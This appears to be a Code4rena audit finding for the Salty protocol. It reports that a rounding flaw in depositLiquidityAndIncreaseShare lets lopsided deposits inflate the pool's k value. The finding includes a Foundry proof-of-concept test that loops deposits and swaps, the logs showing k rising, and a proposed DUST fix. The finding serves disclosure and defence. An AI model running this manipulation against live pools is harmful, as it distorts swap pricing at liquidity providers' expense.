 ## Adding reserves with a large disproportion can lead to subsequent *k* manipulation due to rounding errors 
**Github:**  [Liquidity.sol:l146](https://github.com/code-423n4/2024-01-salty/blob/53516c2cdfdfacb662cdea6417c52f23c94d5b5b/src/staking/Liquidity.sol#L146)

### Vulnerability details:
Calling depositLiquidityAndIncreaseShare() with values that differs more than 1e26,  for example 1000 and 10e26, for reserve0 and reserve1 will lead to the situation when subsequent calls of depositLiquidityAndIncreaseShare() with values up to 10e23 for both reserve0 and reserve1 will add 10e23 liquidity to reserve1 and 0 to reserve0. 

This allows attacker influence manipulate k value by adding liquidity only to reserve1 in the loop. 

Subsequent swaps will be calculated with manipulated k.

### POC 
```javascript
function testMultipleInteractions() public {
    vm.startPrank(address(collateralAndLiquidity));

    IERC20 token0 = new TestERC20("TEST", 18);
    IERC20 token1 = new TestERC20("TEST", 18);
    vm.stopPrank();

    vm.prank(address(dao));
    poolsConfig.whitelistPool(pools, token0, token1);

    vm.startPrank(address(collateralAndLiquidity));

    token0.transfer(
        alice,
        token0.balanceOf(address(collateralAndLiquidity))
    );

    token1.transfer(
        alice,
        token1.balanceOf(address(collateralAndLiquidity))
    );

    vm.stopPrank();

    vm.startPrank(alice);
    token0.approve(address(collateralAndLiquidity), type(uint256).max);
    token1.approve(address(collateralAndLiquidity), type(uint256).max);
    token0.approve(address(pools), type(uint256).max);
    token1.approve(address(pools), type(uint256).max);
    vm.stopPrank();

    vm.startPrank(bob);
    token0.approve(address(collateralAndLiquidity), type(uint256).max);
    token1.approve(address(collateralAndLiquidity), type(uint256).max);
    token0.approve(address(pools), type(uint256).max);
    token1.approve(address(pools), type(uint256).max);
    vm.stopPrank();

    bytes32 poolID = PoolUtils._poolID(token0, token1);
    {
        vm.startPrank(alice);

        token0.transfer(bob, 10 ** 27);
        token1.transfer(bob, 10 ** 27);

        collateralAndLiquidity.depositLiquidityAndIncreaseShare(
            token0,
            token1,
            1000,
            10 ** 26, //should be >=  10 ** 26
            0,
            block.timestamp,
            false
        );

        vm.warp(block.timestamp + 1 hours);
        vm.stopPrank();
        (uint reserve0middle, uint reserve1middle) = pools.getPoolReserves(
            token0,
            token1
        );

        console2.log(
            "1. k is ",
            (reserve0middle * reserve1middle + 5 * 10 ** 21) / 10 ** 22
        );

        vm.startPrank(bob);
        for (uint i; i < 100; ++i) {
            collateralAndLiquidity.depositLiquidityAndIncreaseShare(
                token0,
                token1,
                10 ** 23, // < 10 ** 23
                10 ** 23, // < 10 ** 23
                0,
                block.timestamp,
                false
            );
            vm.warp(block.timestamp + 1 hours);
        }

        (uint reserve0k3, uint reserve1k3) = pools.getPoolReserves(
            token0,
            token1
        );
        console2.log(
            "2. k is ",
            (reserve0k3 * reserve1k3 + 5 * 10 ** 21) / 10 ** 22
        );

        vm.startPrank(address(bob));
        token1.approve(address(pools), type(uint256).max);
        token0.approve(address(pools), type(uint256).max);

        pools.depositSwapWithdraw(
            token0,
            token1,
            10 ** 23,
            0,
            block.timestamp + 1 minutes
        );

        pools.depositSwapWithdraw(
            token1,
            token0,
            10 ** 23,
            0,
            block.timestamp + 1 minutes
        );

        (uint reserve0after2swap, uint reserve1after2swap) = pools
            .getPoolReserves(token0, token1);
        console2.log(
            "3. k after swap is",
            (reserve0after2swap * reserve1after2swap + 5 * 10 ** 21) /
            10 ** 22
        );
    }
}
```
which resulted in 

```logs
Logs:
  1. k is  10000000
  2. k is  12100000
  3. k after swap is 12100000
```

### Mitigation steps

Despite considering this scenario as low probability one, recommend to make it almost impossible by increasing [PoolsUtils.sol:DUST](https://github.com/code-423n4/2024-01-salty/blob/53516c2cdfdfacb662cdea6417c52f23c94d5b5b/src/pools/PoolUtils.sol#L13) value to 1e6 instead of 100.